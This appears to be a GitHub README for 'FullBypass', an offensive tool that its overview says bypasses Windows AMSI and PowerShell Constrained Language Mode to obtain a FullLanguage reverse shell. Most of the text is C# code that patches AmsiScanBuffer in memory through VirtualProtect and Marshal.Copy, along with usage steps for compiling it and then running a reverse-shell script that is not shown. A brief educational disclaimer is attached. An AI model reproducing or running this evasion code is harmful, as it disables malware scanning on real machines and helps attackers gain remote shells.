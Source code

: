 # FullBypass

## Disclaimer
This tool is intended for educational purposes only. Unauthorized use of this tool is prohibited. Use responsibly and ensure you have proper authorization before testing any security measures.

## Overview
This repository contains a tool that demonstrates how to bypass AMSI (AntiMalware Scan Interface) and PowerShell Constrained Language Mode (CLM) to achieve a FullLanguage PowerShell reverse shell.

## Usage
1. Compile the C# code using `msbuild`.
2. Execute the compiled binary to disable AMSI.
3. Run the PowerShell script to establish a reverse shell.

## Basic C# Bypass Attempt
```csharp
using System;
using System.Runtime.InteropServices;

public class AMSIBypass
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    public static void Bypass()
    {
        var hModule = LoadLibrary("amsi.dll");
        var addr = GetProcAddress(hModule, "AmsiScanBuffer");
        VirtualProtect(addr, (UIntPtr)5, 0x40, out var oldProtect);
        Marshal.Copy(new byte[] { 0x31, 0xFF, 0x90 }, 0, addr, 3);
        VirtualProtect(addr, (UIntPtr)5, oldProtect, out _);
    }

    public static void Main(string[] args)
    {
        Bypass();
        Console.WriteLine("AMSI Bypass Applied");
    }
}
